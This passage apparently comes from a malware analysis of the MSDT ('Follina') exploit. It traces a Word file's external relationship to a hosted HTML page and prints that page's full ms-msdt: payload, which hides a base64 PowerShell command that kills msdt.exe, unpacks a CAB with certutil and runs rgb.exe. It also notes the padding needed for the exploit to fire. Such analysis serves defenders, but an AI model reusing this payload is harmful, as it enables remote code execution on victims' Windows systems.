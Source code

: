 Inside the word/_rels/ is a document.xml.rels file, containing an external reference to hxxps[:]//www.xmlformats.com/office/word/2022/wordprocessingDrawing/RDF842l.html!

![Untitled](/img/Microsoft%20Windows%20Support%20Diagnostic%20Tool%20(MSDT)%20R%20f4f28a9b81884cbfb6d6ab5b2a74ad8f/Untitled%201.png)

This was the original contents of **RDF842l.html:**

![Untitled](/img/Microsoft%20Windows%20Support%20Diagnostic%20Tool%20(MSDT)%20R%20f4f28a9b81884cbfb6d6ab5b2a74ad8f/Untitled%202.png)

This HTML document begins with a script tag and includes a significant amount of commented A characters, which (considering they are just comments), would seem to serve no purpose… but from our testing, a hefty amount of characters is necessary ****for the exploit to fire.

At the very bottom of the script tag is the syntax:

`window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_LaunchMethod=ContextMenu 
IT_SelectProgram=NotListed IT_BrowseForFile=h$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'JGNtZCA9ICJjOlx3aW5kb3dzXHN5c3RlbTMyXGNtZC5leGUiO1N0YXJ0LVByb2Nlc3MgJGNtZCAtd2luZG93c3R5bGUgaGlkZGVuI
C1Bcmd1bWVudExpc3QgIi9jIHRhc2traWxsIC9mIC9pbSBtc2R0LmV4ZSI7U3RhcnQtUHJvY2V
zcyAkY21kIC13aW5kb3dzdHlsZSBoaWRkZW4gLUFyZ3VtZW50TGlzdCAiL2MgY2QgQzpcdXNlcnNccHVibGljXCYmZm9y
IC9yICV0ZW1wJSAlaSBpbiAoMDUtMjAyMi0wNDM4LnJhcikgZG8gY29weSAlaSAxLnJhciAveSYmZmluZHN0
ciBUVk5EUmdBQUFBIDEucmFyPjEudCYmY2VydHV0aWwgLWRlY29kZSAxLnQgMS5jICYmZXhwYW5kIDEuYyAtRjoqIC4mJnJnYi5leGUiOw=='+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe
 IT_AutoTroubleshoot=ts_AUTO\"";`
